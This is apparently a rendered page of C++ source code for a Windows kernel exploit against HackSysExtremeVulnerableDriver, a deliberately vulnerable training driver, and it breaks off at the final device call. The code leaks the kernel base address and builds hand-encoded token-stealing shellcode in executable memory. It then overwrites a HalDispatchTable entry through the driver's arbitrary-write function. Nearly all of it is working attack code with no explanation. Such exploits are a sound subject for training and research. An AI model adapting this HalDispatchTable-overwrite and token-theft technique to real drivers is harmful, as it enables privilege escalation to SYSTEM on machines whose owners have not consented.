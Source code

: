```
//HalSetSystemInformation#include &lt;iostream&gt;#include &lt;string.h&gt;#include &lt;Windows.h&gt;using namespace std;#define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)#define HEVD_IOCTL_ARBITRARY_WRITE                               IOCTL(0x802)typedef struct SYSTEM_MODULE `{`    ULONG                Reserved1;    ULONG                Reserved2;    PVOID                ImageBaseAddress;    ULONG                ImageSize;    ULONG                Flags;    WORD                 Id;    WORD                 Rank;    WORD                 LoadCount;    WORD                 NameOffset;    CHAR                 Name[256];`}`SYSTEM_MODULE, * PSYSTEM_MODULE;typedef struct SYSTEM_MODULE_INFORMATION`{`    ULONG                ModulesCount;    SYSTEM_MODULE        Modules[1];`}` SYSTEM_MODULE_INFORMATION, * PSYSTEM_MODULE_INFORMATION;typedef enum _SYSTEM_INFORMATION_CLASS`{`    SystemModuleInformation = 0xB`}` SYSTEM_INFORMATION_CLASS;typedef struct _WRITE_WHAT_WHERE`{`    PULONG_PTR What;    PULONG_PTR Where;`}` WRITE_WHAT_WHERE, * PWRITE_WHAT_WHERE;typedef enum _KPROFILE_SOURCE `{`    ProfileTime,    ProfileAlignmentFixup,    ProfileTotalIssues,    ProfilePipelineDry,    ProfileLoadInstructions,    ProfilePipelineFrozen,    ProfileBranchInstructions,    ProfileTotalNonissues,    ProfileDcacheMisses,    ProfileIcacheMisses,    ProfileCacheMisses,    ProfileBranchMispredictions,    ProfileStoreInstructions,    ProfileFpInstructions,    ProfileIntegerInstructions,    Profile2Issue,    Profile3Issue,    Profile4Issue,    ProfileSpecialInstructions,    ProfileTotalCycles,    ProfileIcacheIssues,    ProfileDcacheAccesses,    ProfileMemoryBarrierCycles,    ProfileLoadLinkedIssues,    ProfileMaximum`}` KPROFILE_SOURCE, * PKPROFILE_SOURCE;typedef NTSTATUS(WINAPI* PNtQuerySystemInformation)(    __in SYSTEM_INFORMATION_CLASS SystemInformationClass,    __inout PVOID SystemInformation,    __in ULONG SystemInformationLength,    __out_opt PULONG ReturnLength    );typedef NTSTATUS(WINAPI* PNtQueryIntervalProfile)(    __in KPROFILE_SOURCE ProfileSource,    __in ULONG* Interval);typedef NTSTATUS(WINAPI* PNtSetIntervalProfile)(    __in ULONG* Interval,    __in KPROFILE_SOURCE ProfileSource);INT32 GetKernelBaseAddress()`{`    //Get NtQuerySystemInformation Address    PNtQuerySystemInformation NtQuerySystemInformation =(PNtQuerySystemInformation)GetProcAddress(GetModuleHandleA("ntdll.dll"),"NtQuerySystemInformation");    if (!NtQuerySystemInformation)`{`        cout &lt;&lt; "[!] Failed to Get the Address of NtQuerySystemInformation." &lt;&lt; endl;        cout &lt;&lt; "[!] Last Error:" &lt;&lt; GetLastError() &lt;&lt; endl;        exit(1);    `}`    ULONG len = 0;    //Get Buffer Length    NtQuerySystemInformation(SystemModuleInformation,NULL,0,&amp;len);    //Allocate Memory    PSYSTEM_MODULE_INFORMATION PModuleInfo = (PSYSTEM_MODULE_INFORMATION)VirtualAlloc(NULL,len,MEM_RESERVE | MEM_COMMIT,PAGE_EXECUTE_READWRITE);    //Get SYSTEM_MODULE_INFORMATION     NTSTATUS Status = NtQuerySystemInformation(SystemModuleInformation,PModuleInfo,len,&amp;len);    if (Status != (NTSTATUS)0x0)`{`        cout &lt;&lt; "[!] NtQuerySystemInformation Failed!" &lt;&lt; endl;        exit(1);    `}`    PVOID KernelImageBase = PModuleInfo-&gt;Modules[0].ImageBaseAddress;    cout &lt;&lt; "[&gt;] Kernel base address: 0x" &lt;&lt; hex &lt;&lt; KernelImageBase &lt;&lt; endl;    return (INT32)KernelImageBase;`}`int main() `{`    HANDLE hFile = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, NULL, NULL, OPEN_EXISTING, NULL, NULL);    if (hFile == INVALID_HANDLE_VALUE) `{`        cout &lt;&lt; "[!] No Handle to HackSysExtremeVulnerableDriver" &lt;&lt; endl;        exit(1);    `}`    cout &lt;&lt; "[&gt;] Handle to HackSysExtremeVulnerableDriver: 0x" &lt;&lt; hex &lt;&lt; (INT32)hFile &lt;&lt; endl;    INT32 KrBase = GetKernelBaseAddress();    INT32 HalDispatchTable_Address = KrBase + 0x0012b3f8;    INT32 HalQuerySystemInformation_Address = HalDispatchTable_Address + 0x4;    INT32 HalSetSystemInformation_Address = HalDispatchTable_Address + 0x8;     //HalQuerySystemInformation_Address Offset 0x912    CHAR* SC = (CHAR*)VirtualAlloc(0, 0x60, 0x3000, 0x40);    ZeroMemory(SC, 0x60);    __asm `{`        pushad;        mov ebx, HalSetSystemInformation_Address;        mov eax, HalQuerySystemInformation_Address;        mov edi, SC;        mov[edi], 0x60;        mov dword ptr[edi + 0x1], 0x000000E8;        mov dword ptr[edi + 0x5], 0x588B5800;        mov dword ptr[edi + 0x9], 0x4F488B4B;        mov dword ptr[edi + 0xD], 0xC281138B;        mov dword ptr[edi + 0x11], 0x00000912;        mov dword ptr[edi + 0x15], 0x90901189;        mov dword ptr[edi + 0x19], 0x8B64C031;        mov dword ptr[edi + 0x1D], 0x00012480;        mov dword ptr[edi + 0x21], 0x50408B00;        mov dword ptr[edi + 0x25], 0x04BAC189;        mov dword ptr[edi + 0x29], 0x8B000000;        mov dword ptr[edi + 0x2D], 0x0000B880;        mov dword ptr[edi + 0x31], 0x00B82D00;        mov dword ptr[edi + 0x35], 0x90390000;        mov dword ptr[edi + 0x39], 0x000000B4;        mov dword ptr[edi + 0x3D], 0x908BED75;        mov dword ptr[edi + 0x41], 0x000000F8;        mov dword ptr[edi + 0x45], 0x00F89189;        mov dword ptr[edi + 0x49], 0x31610000;        mov dword ptr[edi + 0x4D], 0x0000C3C0;        mov dword ptr[edi + 0x51], eax;        mov dword ptr[edi + 0x55], ebx;        popad;    `}`    PULONG_PTR* PShellcode = (PULONG_PTR*)&amp;SC;    PWRITE_WHAT_WHERE Buffer;    Buffer = (WRITE_WHAT_WHERE*)malloc(sizeof(WRITE_WHAT_WHERE));    ZeroMemory(Buffer, sizeof(WRITE_WHAT_WHERE));    Buffer-&gt;Where = (PULONG_PTR)HalSetSystemInformation_Address;    Buffer-&gt;What = (PULONG_PTR)PShellcode;    DWORD size_returned = 0;    BOOL is_ok = DeviceIoControl(hFile, HEVD_IOCTL_ARBITRARY_WRITE, Buffer, sizeof(WRITE_WHAT_WHERE), NULL, 0, &amp;size_returned, NULL);
```